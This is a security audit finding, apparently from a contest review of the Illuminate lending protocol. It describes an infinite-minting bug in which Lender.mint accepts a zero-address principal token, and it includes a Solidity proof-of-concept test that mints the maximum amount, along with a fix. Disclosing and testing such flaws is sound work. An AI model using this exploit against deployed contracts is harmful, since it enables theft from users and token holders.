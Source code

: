 kenzo

high

# Infinite minting is possible for markets who don't support all protocols

## Summary
When a market does not support all of the lending protocols, an attacker can mint infinite amount of iPTs.
This is because `Lender` does not check that the PT contract exists. So when an attacker calls `mint`, `Lender` will "transfer" PTs from the 0-address, without really checking for success, and then proceed to mint the attacker iPTs for free.

In fact, one could say that like K's Choice, the attacker would get Everything For Free.

## Vulnerability Detail
Using `Lender`'s `mint` function, the user can supply a protocol principal (eg. Notional's PTs) that `Lender` will pull, and then mint to the user the equivalent amount of iPTs.
But not all protocols might be set in a certain market. (This can be evidenced by the `setPrinicipal` [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Marketplace.sol#L209), which allows the admin to set a market at a later date. And also by the fact that evidently not all protocols have the same active markets.)
If a protocol is not set, it's principal token in Illuminate is the 0 address.
When `Lender` tries to pull tokens from the user (using `Safe` library), a call to the 0 address wouldn't revert, so `Lender` would think that the transfer succeeded.
It will then proceed to mint to the user (attacker?) the corresponding amount of iPTs that the user supplied as parameter - even though in actuality the user hasn't sent any tokens.

## Impact
A user can mint infinite (or arbitrary) amount of iPTs for free.
He can then proceed to dump them on the market and make their value 0, or redeem them later.

## Code Snippet
`Lender`'s `mint` [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270) takes any `p` as input. It then tries to pull the tokens from the user using `Safe`, and proceeds to mint the corresponding amount of iPTs.
```solidity
    function mint(uint8 p, address u, uint256 m, uint256 a) external unpaused(u, m, p) returns (bool) {
        address principal = IMarketPlace(marketPlace).token(u, m, p);
        Safe.transferFrom(IERC20(principal), msg.sender, address(this), a);
        IERC5095(principalToken(u, m)).authMint(msg.sender, a);
        emit Mint(p, u, m, a);
        return true;
    }
```
`Safe.transferFrom` [will return true](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/lib/Safe.sol#L114:#L115) if there was no return data:
```solidity
                // There was no return data.
                result := 1
```
Therefore, Illuminate will think `transferFrom` has succeeded and will proceed to mint the attacker the amount of tokens he supplied as parameter.

## Proof of Concept
You can add the following test to `fork/Lender.t.sol` to see that when a market is not set, an attacker can mint infinite amount of iPTs.
```solidity
    // Based on deployMarket but with empty Notional prinicipal
    function deployMarketWithEmptyPrincipal(address u) internal {
        l.setMarketPlace(address(mp));
        // Create a market
        address[8] memory contracts;
        contracts[0] = Contracts.SWIVEL_TOKEN; // Swivel
        contracts[1] = Contracts.YIELD_TOKEN; // Yield
        contracts[2] = Contracts.ELEMENT_TOKEN; // Element
        contracts[3] = Contracts.PENDLE_TOKEN; // Pendle
        contracts[4] = Contracts.TEMPUS_TOKEN; // Tempus
        contracts[5] = Contracts.SENSE_TOKEN; // Sense
        contracts[6] = Contracts.APWINE_TOKEN; // APWine
        contracts[7] = address(0); // Empty principal for Notional

        mp.createMarket(
            u,
            maturity,
            contracts,
            'TEST-TOKEN',
            'TEST',
            Contracts.ELEMENT_VAULT,
            Contracts.APWINE_ROUTER
        );
    }

    function testInfiniteMintWithEmptyPrincipal() public {
        deployMarketWithEmptyPrincipal(Contracts.USDC);

        // Run cheats/approvals
        runCheatcodes(Contracts.USDC);

        uint256 wowMuchTokensBigAmount = type(uint256).max;

        l.mint(uint8(8), Contracts.USDC, maturity, wowMuchTokensBigAmount);

        address ipt = mp.markets(Contracts.USDC, maturity, 0);
        assertEq(wowMuchTokensBigAmount, IERC20(ipt).balanceOf(msg.sender));
    }
```

## Tool used
Manual Review

## Recommendation
In `Lender`'s `mint`, do not allow minting if the PT is address 0 (= if the protocol is not set for this market.)
